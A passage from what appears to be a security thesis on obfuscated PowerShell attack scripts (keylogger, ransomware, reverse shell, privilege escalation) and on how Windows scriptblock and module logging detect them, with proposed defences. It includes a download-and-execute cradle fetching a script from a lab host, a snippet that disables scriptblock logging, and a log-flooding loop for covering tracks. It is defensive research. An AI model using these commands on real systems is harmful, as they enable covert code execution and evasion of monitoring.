
\includegraphics[scale=0.40]{21.png}
The log file was able to mark the scripts with the warning level. This already seems more promising then the AV-programs. However as mentioned in section 3.2, the attacker can obfuscate their script in order to overwrite important log entries and therefore cover their tracks. Although this attack was tested on a machine using the archiving property of Event Viewer, the default setting is to overwrite old event entries. Meaning that a obfuscated script would in general overwrite the important log entries shown in figure $5$. In the next section, the thesis will discus some strategies to circumvent this issue.
\subsection{What is the real performance of the PowerShell logging tool when large attacking scripts are executed}
Up until now, only small scripts or commands have been executed on PowerShell. This gives the logging tool enough time and space to log the events of one task efficiently. However real attack scripts can consist out of thousands lines of code i.e. (Invoke-Mimikatz.ps1 $2.745$ lines. Logging the deobfuscated commands of large obfuscated scripts should in theory be harder. Therefore it is important to analyse the real effect of the PowerShell logging tool. Therefore to answer the question \textbf{"What is the real performance of the PowerShell logging tool when large attacking scripts are executed"} it is required to execute several actual malicious scripts and analyse the out put of the PowerShell logging tool in the event viewer.
\newline
The flexibility and power of PowerShell allows attackers to use PowerShell in multiple ways and for multiple types of attacks. This thesis is will focus itself on the most common types of attacks.
\newline
\subsubsection{Types of attacks}
According to [\hyperlink{o9}{o9}] the CESG, there are two types of attacks: Un-targeted attacks and Targeted attacks. Un-targeted attacks are attacks that indiscriminately attack as many devices as possible. Most windows users will have fallen victim to these types of attacks. While in targeted attacks, the attacker is focused on attacking a specific victim. Most attacked organisations will have fallen victim to these types of attacks. Each type of attack has its own attacking techniques:\\
\textbf{Untargeted attacks}
\begin{enumerate}
	\item Phishing
	\item Water holing
	\item Ransomware
	\item Scanning
\end{enumerate}
\textbf{Targeted attacks}
\begin{enumerate}
	\item Spear-phishing
	\item Deploying a botnet
	\item Subverting the supply chain
	\item Brute force attacks
	\item Malware execution
	\item Man in the middle attack
	\item Social engineering
\end{enumerate}
In the following sub-sections, the usage of several attacking scripts will be documented including the performance of PowerShell logging. Further more the attacking model that corresponds with the usage of the attacking script will be discussed. This will allow for a better assessment of the potential threat of PowerShell scripts.\\
\newline
\textbf{\textit{Note:}}\\
Since this section is mostly focused on PowerShell logging, the AV might be disabled in order to execute some of the attack scripts. If this is the case, then it will be stated in the subsection of the corresponding attacking script. The original version of the script is for the sake of reproducibility also added as attachment under \hyperlink{scrip2}{Keylogger.ps1}

\subsubsection{Keylogger}
[\hyperlink{o10}{o10}]This keylogger script is proof of case script, meaning that it is written such a way such that it cannot be used as a real keylogger as is. Although the number of changes required to be made in order to use this keylogger as actual malware is minimal.
\paragraph{Attack model}\hfill
\newline
To make use of this script, the attacker can make use of two different attack models. In the first model, the attacker could gain access to a local machines and execute the script. This script does not require admin privileges in order to execute, therefore the victim machine is not required to be a system that can give the attacker admin privileges.
\newline
\\
The second attack model consists is the more real model used with these types of scripts. That is: the attacker will send an email to random email addresses claiming that the file within the mail has some encrypted secret stored inside, which can only be decrypted if the file is executed. This attack model in general raises suspicion which would mean that the attacker will be required to use some form of social engineering to lower the users suspicion. Also it might be use full to note that although Microsoft, as a security measure, has designed the admin privilege request in a way such that the user is always aware of giving a file admin privileges, that this security measure does not hold much value in the real world as most users will click on the yes button of the prompt without giving it a second thought. [\hyperlink{7}{7}]This has been proven time and again by the number of user agreement that have been agreed on by software users which have not been read.
\paragraph{Description}\hfill\newline
This script runs a process that uses the GetAsyncKeyState api and stores the value of this key in a file which has its path stored in \$Path. The script terminates if \textbf{Ctrl$+$C} is pressed and opens the file with the stored keys using notepad. This script consists out of 42 lines of code and therefore is a good script to start with in order to answer the sub question of this section.

\paragraph{Usage}\hfill\newline
This script is run on Windows $8.1$ and Windows Server $2019$ since Windows Server $2016$ and Windows $10$ have the same logging capabilities as Windows Server $2019$. Since the focus is on how PowerShell logging will interact with the script, the attack models are ignored. Instead the script is executed and downloaded using the unobfuscated PowerShell command:
\begin{verbatim}
Invoke-Expression (New-Object Net.WebClient)
.DownloadString("http://192.168.2.36:8000/Keylogger.ps1");
\end{verbatim}
\paragraph{\textbf{Obfuscation commands}}\hfill
\newline
\hypertarget{obfuscation}
The script is manually obfuscated with Invoke-Obfuscation using the following obfuscation commands in the corresponding order:
\begin{enumerate}
	\item AST ALL
	\item Encoding 2 (HEX)
	\item String 1
	\item Encoding 7 (Special characters)
	\item Encoding 4 (Binary)
\end{enumerate}
The resulting script has a length of $881651$ characters.
\paragraph{Windows 10/Server 2016/ Server 2019}
In order to execute the script AV was disabled. After executing the script (for about 15 secconds) the following has been noted:
\begin{enumerate}
	\item Windows PowerShell log file (includes module logging) generated $9296$ events. The file size is $15$ mb.
	\item PowerShell Operational log file (includes scriptblock logging) generated $8291$ events. The file size is $16.50$ mb.
	\item No warning-level events were logged.
	\item Highest level event is verbose.
	\item De-obfuscated code was still entangled with obfuscated code.
\end{enumerate}
The following has been noted after executing the unobfuscated \hyperlink{script2}{script}:
\begin{enumerate}
	\item Windows PowerShell log file (includes module logging) generated $550$ events. The file size is $1$ mb.
	\item PowerShell Operational log file (includes scriptblock logging) generated $556$ events. The file size is $1,07$ mb.
	\item One warning-level event were logged.
	\item Highest level event is warning.
	\item Deobfuscated code was clearly visible entangled with obfuscated code.
\end{enumerate}

\paragraph{Windows 8.1 (Default PowerShell logging)}\hfill\newline
Most windows $8$ users will have the default installation of windows 8. This version of windows $8$ does not include module logging and script block logging. Therefore in this section, the effectiveness of default PowerShell logging is documented.
In order to execute the script AV was disabled.

\paragraph{Windows 8.1 (Advanced PowerShell logging)}\hfill\newline
In this section the performance of PowerShell logging ,including module and script block logging, is analysed.In order to execute the script AV was disabled.
The results of this have been documented in table $6$ of the attachment. The results of windows $10/2016/2019$ have also been added to this table.

\paragraph{Intermediary Results}\hfill\newline
The results found for Obfuscated scripts are suspicious. Each log file was cleared before running the scripts. Therefore since all log files had reached the same size, it could only mean that the maximum size of the log files have been reached. This would mean that some log entries have been missed. So to test this, the log settings have been changed such that if the log file has reached the maximum length, it will be stored and a new log file will be used for new entries. After doing this, the scripts, both obfuscated and unobfuscated, was run again. The results can be found in table $7$ in the attachments. Table $7$ clearly shows that a large part of the log file was deleted before. Therefore from this point on, the attack scripts will only be run while having archiving enabled.

\subsubsection{Ransomware}
The next malware script is ransomware. Ransomware is a type of malware that encrypts user files and required the victim to pay ransom in order to decrypt and retrieve their stolen files. This particular ransomware script encrypts everything in the given path directory using 7zip. Before encrypting the files found, the script generates a random key that is used to encrypt the files found. This key is then sent to the attacker through a mail system. This code can be considered as malicious, therefore it will not be shared in this thesis. The script is used for untargeted attacks, which is enabled by the mailing feature, and uses the same attack model as Keylogger.ps1. Furthermore the script requires admin privileges to function correctly. The script terminates on its own. This means that it is not necessary to measure the execution time since longer execution time does not correspond to more operations.
In this test the script was obfuscated using the previously described \hyperlink{obfuscation}{obfuscation} commands excepts for the last command, meaning binary encoding. This command had to be removed since Invoke-Obfuscation would create a file to large for the test system to handle, therefore crashing the machine.

\subsubsection{Reverse Shell}
A reverse shell is a script that allows a remote user to have direct access to a victims computer. ReverseShell scripts in PowerShell will allow the attacker to gain remote access to a terminal. And therefore have complete access to all the tools and functions that make PowerShell so powerful. Attackers make use of reverse shell terminals mainly to scan the victims machine (Reconnaissance), download viruses and exploit security vulnerabilities. The ways in which a reverse shell can be created can vary greatly. An example of deploying a reverse shell is sketched in the next section.
\paragraph{Attack model}\hfill
\newline
The attacker visits a website which has a php backend. He then uploads a php file in a insecure field which was meant to be used to upload images. When the attacker now visits the page in which the image was supposed to be displayed, the php script uploaded by the attacker is executed. The attackers script makes use of:
\begin{verbatim}shell_exec\end{verbatim}
Therefore the php file, when executed, will start a PowerShell terminal to execute the command written in the php file. The attacker can make use of this command field to open up a reverse shell terminal. In this test, the script was obfuscated using the same \hyperlink{obfuscation}{obfuscation} commands as described previously. The command \textbf{Invoke-ALLChecks} was used after executing the script. 
\newline\newline
\textit{\textbf{NOTE:}}The reverse shell script was used with a non-administrator account, with AV turned on.
\newline

\subsubsection{Privilege Escalation}
Privilege escalation attacks, are attacks that make use of software vulnerabilities to gain administrator privileges. This would allow the user to gain access to restricted parts of a computer (including the file in which the administrators key is stored) and run more malicious scripts. If an attacker gains access to the password of an administrator, then he can access the machine at any given time without raising an alarm. It is not hard to see why every attacker would want this type of access. But gaining admin privileges is in general much harder then gaining access to a system or exploiting some vulnerabilities. Manual privilege escalation usually requires a deep understanding of the system and software that is used. For that reason it is difficult for most attacker to execute privilege escalation attack on their own. To circumvent this problem, most attackers make use of pre-written scripts, including PowerShell scripts, to gain administrator access. That also means that if a perfect defence system against scripting was feasible, then it would become almost impossible for most attackers to gain administrator privileges. But as is right now, a `script kiddie`, a term used to refer to a person who can only attack a computer using existing scripts while lacking any understanding of the script or the ability to write their own, can gain administrator privileges. In this section a popular PowerShell script called 'Privesc' will be used. This script scans the computer for known vulnerabilities, and suggests to the user some attacks that he then can execute. Because the script may require user input multiple times, these type of scripts are run by attackers after the attacker establishes a reverse shell. Which as shown in the previous section can be established without triggering the AV program. In this test no obfuscation is used, since Privesc comes with its own obfuscation. Any further obfuscation results in a crash since the file itself exists out of four thousand lines with each line containing at least ten characters. The results can be found in table $11$.

\subsubsection{Conclusion}
During the execution of all scripts, the PowerShell logging tool generated a large number of log entries. While the execution time was fairly short, the number of log entries created easily exceeded hundreds of megabytes. The AV was able to detect the keylogger script, and the ransomware script, while failing to detect the reverse shell script and the privilege escalation script. During the execution of Privesc.ps1, the DLLInjection command was used to inject a command inside a dll service. This was also not detected by the AV. Since the AV was not able to detect the scripts, it can also be assumed that the AMSI tool did not detect it either, which shows that there are scripts that attackers can use during their attacking process, that will go through the default defence system of the average user. But when looking at the event logger, we can see in table \hyperlink{table9}{9} and table{table10}{10} that, the event logger was able to detect some suspicious activity which were documented in the log file with the warning level. Further more the event viewer shows that some scriptblocks are to large to fit in one event viewer. This can be seen in image \hyperlink{fig1}{1}, where the log event states:
\begin{verbatim}
Creating Scriptblock text (2 of 52)
\end{verbatim}
This means that a very large script, large as in the script contains a high number of symbols, is executed. As mentioned before the obfuscation techniques of Invoke-Obfuscation create large scripts when obfuscated. Most scripts when obfuscated end up being larger then five hundred thousand symbols. So this event log, could perhaps indicate that an obfuscated file was executed. 
The windows versions,Windows $7$ and $8$ Home edition, which do not have scriptblock logging and module logging, did not show any sign of suspicious behavior. Which means that a new line of defence built around logging would be useless. It might be worth noting that scriptblock and module logging can be added to windows $7$ and $8$ if the OS is upgraded to pro edition. It is fair to assume that most people will not buy the upgrade, therefore leaving them vulnerable to some attacks. But if scriptblock and module logging are enabled and configured correctly, then they can act as another layer of defence. Some possible configurations will be presented in the next section.

\subsection{What techniques can be used to bypass the logging of obfuscated commands.}
PowerShell script logging is used by forensics teams to find what the attackers intentions were. [\hyperlink{o5}{o5}] But thanks to continuous development of the script logging tool, it is now also possible to detect an attack using by using the module logging and scriptblock logging tool (available in PowerShell v5 or later).
\subsubsection{PowerShell Module Logging}
[\hyperlink{o6}{o6}] Module Logging has been available since PowerShell v3. This logging tool logs command invocations, which can be very useful since some command invocations, such as "IEX Some-string", immediately raise suspicion. This tool logs these commands sometimes even if the command has been obfuscated. There are multiple log analysis tools that make use of the logs created by module logging to alert a server manager. Therefore bypassing the module logging is important.
\subsubsection{PowerShell Script Block Logging}
[\hyperlink{o6}{o6}]Script Block Logging logs the whole block of code just before it gets executed. This ensures that the whole attacking script is logged. It also deobfuscates the code if necessary. It also makes certain obfuscation techniques obsolete such as [\hyperlink{o6}{o6}] encoding in \textit{XOR},\textit{Base64} and \textit{ROT13}. Script block logging is only available on windows 10 and windows server 2016+. [\hyperlink{o6}{o6}] The script block logging tool also compares the code blocks with hashes of known malicious scripts as a quick check. If they match it can be found with the warning tag in the Event viewer.
\subsubsection{Importance}
SIEM tools (and [\hyperlink{o7}{o7}] AMSI) have become another line of defence. Therefore an attacker also needs to bypass the PowerShell logging tool during an attack. This makes the sub-question: \textbf{"What techniques can be used to bypass the logging of obfuscated commands"}. This question has been partly answered by [\hyperlink{o8}{o8}] Andy Green, who tested the module logging capabilities.Some obfuscated code can be deobfuscated by the logging tool (both module and code block logging). However when multiple iterations of obfuscation is used, the logging tool instead logs the obfuscated command with the obfuscation.
\newline\newline
\hypertarget{fig1}{
	\textit{Figure 1: ScriptBlock logging log for large obfuscated Get-Keystokes.ps1 from PowerSploit}\\
	
\includegraphics[scale=0.44]{1.png}
}

However the fact that the obfuscated code can be logged completely can be a problem if read by the SIEM program. For example in figure $1$ it can be seen that the event viewer has labeled the scriptblock with the warning level. Therefore it might be important to find a way to make the logging tool completely irrelevant.

It might be useful to note that when a command is to large to be written in one log event, it is split in multiple log events. This can also be seen in figure $1$ in the very first line saying:\textbf{"Creating Scriptblock text (2 of 52)"}. Further more the event viewer has a maximum storage value for each log, which is $15360$ kb. With this information a new question can be asked: \textbf{What happens if the scriptblock creates a larger log file then the maximum storage value?} The log file created by running the obfuscated Get-Keystrokes.ps1 file is $2.06$ mb. Therefore to answer the question above, the maximum storage capacity is shrunk to 1028kb. Executing the script again resulted in:\newline\newline

\textit{Figure 2: ScriptBlock logging log for large obfuscated script with 1028kb storage space}\\

\includegraphics[scale=0.44]{2}
The log file has been written over multiple times which removed all the warning that it showed initially. However the event viewer also allows the server admin to store the log files when maximum capacity has been reached instead of deleting the oldest entry. In general it can be assumed that this option won't be used as it gives an attacker an easy way to fill the computers storage space with trivial commands. In fact after searching for log files with event ID $4104$ which is the event id used for scriptblock logging, it became apparent that none of the events were stored. This probably happened because the event viewer was trying to store all segmented parts of the scriptblock in one file.

\subsubsection{Conclusion}
The PowerShell logging tool is indeed capable to deobfuscate obfuscated scripts. The module logging, as stated in \hyperlink{o8}{o8}, can find invocation commands when called through the obfuscated script, which would mean that a SIEM tools could use the log file to detect a security breach. However bypassing it is fairly simple. A hacker could test the obfuscated script on his own VM first before running it on the victim's system in order to find the right obfuscation for the script. The PowerShell scriptblock logging tool on the other hand, is much more powerful. It can not only deobfuscate scriptblocks, it also can scan the unobfuscated scripts and compare them to known malicious scripts. When the logging tool finds a match it labels the scriptblock as potentially malicious which can be seen in \hyperlink{fig1}{figure 1}.
There are multiple ways to bypass the logging tools. The most commonly used bypass would be [\hyperlink{o7}{o7}]:
\begin{verbatim}
$settings = [Ref].Assembly.GetType
  (“System.Management.Automation.Utils")
.GetField(“cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings
[“HKEY_LOCAL_MACHINE\Software\Policies
\Microsoft\Windows\PowerShell\ScriptBlockLogging"]
 = @{}
$settings
[“HKEY_LOCAL_MACHINE\Software\Policies
\Microsoft\Windows\PowerShell\ScriptBlockLogging"]
.Add(“EnableScriptBlockLogging", “0")
\end{verbatim}
And a similar command would deactivate PowerShell module logging. This command uses the group policy that has been cached and therefore does not require any additional privilege. Meaning it can be executed by any user. However it is important to note that the command itself has been logged. Which can trigger an alarm on its own. Therefore obfuscating this command would be necessary to bypass the PowerShell logging and the SIEM tools. To check the effectiveness of obfuscation, the command:
\begin{verbatim}
[Ref].Assembly.GetType("System.Management.Automation.Utils")
.GetField("cachedGroupPolicySettings","NonPublic,Static")
.GetValue($null)
["HKEY_LOCAL_MACHINE\Software\Policies
\Microsoft\Windows\PowerShell\ScriptBlockLogging"]
= @{}
\end{verbatim}
was obfuscated 60 times, each having a distinct iteration of different obfuscation techniques. The result was that PowerShell module logging was able to deobfuscate to command currently each time. This is probably the case since the command is a well known command and so many hashes of this command have probably been stored to which the obfuscated files were compared to. The log file would reach a size of $6$ mb on average, which is fifty percent of the standard size of the log file. In these types of situations, increasing the size of the events logged by executing the script would be very useful as a bypass technique.


\newpage
\subsection{What additional defence systems can be deployed against obfuscated PowerShell scripts}
The default defense system on a windows machine, as seen in the previous section, does not seem to be enough. Therefore it is important to look for alternative ways to defend against PowerShell attacking scripts. This section will discus several additional defence techniques, and will analyse their potential.
\subsubsection{PowerShell event logging}
Most of this thesis revolved around the PowerShell logging tool. Therefore this feature is discussed first. The PowerShell logging tool as mentioned previously consists out of multiple parts. But the most important features of the logging tool are scriptblock logging and module logging. During the tests it became apparent that the module logging feature is unfit to work as a defence mechanism. This is because, while module logging does accurately log the individual commands, it cannot document the whole attack. This means that a reader of these log files, human or not, will have difficulties to gain a complete picture of the attack. This would make an attack hard to recognise. Scriptblock logging on the other hand is a very powerful logging feature. During the test, scriptblock logging was always able to deobfuscate the scripts correctly. If used correctly along side of some other defence software, e.g. AV, this feature could help with detecting obfuscated PowerShell scripts. Therefore a further analysis of this feature has been made.
Each log file in Event Viewer has a few properties that can be set by the system administrator. These properties are:
\begin{enumerate}
	\item File size
	\item Log Path
	\item Overwrite the oldest entry when maximum size has been reached.
	\item Archive the log file when maximum size has been reached.
	\item Do not overwrite events (Clear logs manually)
\end{enumerate}
The pros and cons of each property will be discussed further below. But it may be useful to first discus some defence strategies that can make use of PowerShell logging in order to make an attack more difficult.
\subsubsection{Attaching a task to log file}
One feature that the event viewing software has is that it allows the system admin to attach a task to a log. If the system admin attaches a task that will mail the system admin after the log file contains a log entry that has a warning level severity, then this could already help against attacker. As shown in the previous section, while some scripts like the reverse shell script, cannot be detected by AV or AMSI, they were accurately logged and labeled with a warning level. As it can not be expected from a system admin to read the logs created, a task that notifies the system admin that a warning level event was logged could help the system admin to detect these types of attacks. In order to bypass this type of defence, the attacker would have to bypass or deactivate the logging system altogether. As shown before in section $3.3$, disabling PowerShell logging creates one last event in the event viewer which has a warning level severity. Therefore an admin would still be notified by the system, which potentially might reveal the attack. In fact a log in which the deactivation of the PowerShell logging is stated can in general be seen as an attack as the system admin will probably not to this on his own.
\subsubsection{Machine learning using Scriptblock logging}
As the old signature based approach, that is still used by most AV software, has become more irrelevant, it has created a rise in research in alternative forms of defence. One of these is the usage of machine learning. Numerous research has been done in which a ML-machine is trained on attacking scripts and has to detect new attacking scripts. These types of software can make great use of the scriptblock logging feature of PowerShell logging. An log entry has some specific information that is hard to gain without using the logging tool. This information could reveal a pattern in an attack that may not be recognised otherwise. A sample of the log file can be found in the \hyperlink{output2}{attachments}.\\
Information such as the GUID could allow for the finding of a certain pattern in attacks. [\hyperlink{o11}{o11}]While the detection of obfuscation by ML-systems have shown great result, the detection of malware using ML has not been as effective. Therefore it might help to look at the whole attack process using PowerShell logging, instead of the scripts alone. For a better view of what the log file of an attack looks like, two xml files will be uploaded to a public \href{https://github.com/ZamirAmiri/Obfuscation}{repository}.
\subsubsection{MTD}
It is also worth mentioning moving target defence here. In short MTD (moving target defence), is a defence mechanism that is built on the idea of moving the attackers target constantly such that the attacker is not able to maintain access to the target long enough in order to cause any damage. MTD in information security however can mean multiple things. One approach of MTD would be to rename the functions called by PowerShell attack scripts. By changing the orders in which the input for a certain command have to be filled in, the attacking script could be disabled. And if the attacking script was downloaded in an obfuscated state, then that would mean that the attacker would not be able to recalibrate the script. At least, this used to be the case. As mentioned before, scriptblock logging has proven to be a very good deobfuscation tool, which means that an attacker that downloaded the obfuscated script could make use of scriptblock logging in order to find the actual script which he then could change in order to execute it. This makes some MTD-approach based defences obsolete. However one form of MTD-based defence that would still work, is to move log files, and system administration files. Most hackers scan the computer to which they gain access, in order to collect as much information as possible. Their scanning scripts mainly consists out of commands which traverse the users directories. Which means that if the files, which the script is trying to read, are moved to other positions, then the script will not function. An experienced hacker will not be blocked by this approach however the less experienced type of hacker called a 'script kiddie' will be blocked by the attack as they lack the knowledge of how a script actually works.
\subsubsection{SIEM-tools}
SIEM or Security Information and Event Management tools work as a parser of the log events. Some of these types of software store the events logged on their systems which means that the system admin does not have to archive the logs himself. The advantages and disadvantages of this system will be further analysed in an upcoming section. In general it is difficult to state the effectiveness of SIEM-tools, since they can vary greatly in their capabilities. Further and more specific research is required in order to analyse their effectiveness.
\subsubsection{Logging rate and log size}
During this research, it became clear that obfuscated code would sometimes create an event to large to store in one log entry. As shown in figure 1. This information, although it does not guarantee that an obfuscated script is being executed, raises some suspicion. While this might need further analysis, it seems to be very clear that normal scripts usually do not need more then one log entry to store the whole event. Therefore it seems that the chances of finding obfuscated script based on this information is high. A suggestion for system admins would be to attach a task to the log file that will look for these types of occurrences and notify the system admin when an event that has been logged over multiple log-entries has been found.\newline
During the execution of the obfuscated script, an increase in the log rate was noticed. A sample of this information can be found in table six to nine in the attachments. For example the log rate for obfuscated reverse-shell scriptblock logging was $709$ log entries per second. While the unobfuscated version of the same script had a log rate of $21$ log entries per second. It might also be worth noting that the obfuscated version of Privesc had a log rate of $48.382$ entries per second.
Perhaps SIEM-tools could make use of this information to detect suspicious activity.
Further more, during this research the scripts usually had five to six layers of obfuscation. Another research pointed out that $90$\% of the scripts that they had found, had only one layer of obfuscation. However it is still worth pointing out the increase in log rates and a defence system based around the log rate might help to reveal some otherwise undetected attacks.
\subsubsection{Overwrite the oldest entry when maximum size has been reached.}
This is the default settings used by all log files. When this option is chosen, the event viewer will overwrite the oldest log. The advantage of this option is that it does not use a large part of your hard disk. However this does mean that an attacker could abuse this option by executing some obfuscated non malicious script at the end of their attack in order to cover their tracks. As seen in the tables \hyperlink{table6}{6} and \hyperlink{table7}{7}, obfuscated code can create a large number of events. Therefore obfuscating a simple script could already create sufficient number of events such that the attackers activity is completely overwritten. This can be circumvented by using a SIEM-tool that stores the created log-entries in the cloud. In this case the attacker could try to overflow the SIEM-tool buffer by generating a large number of events. This can be done by applying multi-layer obfuscation to the scripts used.
\subsubsection{Archive the log file when maximum size has been reached.}
With this option the log file will be stored in the default log folder, which later can be loaded in the event viewer. This method creates a defence against clearing tracks that could have been exploited using the previous option. The attacker will not be able to delete these log files without admin privileges. Therefore this option will detect an attacker who is scanning the machine. Which is the first step of any attacker that gains access to a shell terminal on the victims machine. In section $3.5$ it was shown that both AV and AMSI were not able to detect scanning scripts and it allowed the attacker of section $3.5$ to gain a large data set about the victims machine. By archiving the log file, the system admin will have more time to process the log entries which could result in detecting the attacks. However this option makes the victim machine vulnerable to another type of DOS attack. The attacker could create a script that would work as followed:
\begin{verbatim}
  while(true){
  	./executeObfuscatedHarmlessCode.ps1
  }
\end{verbatim}
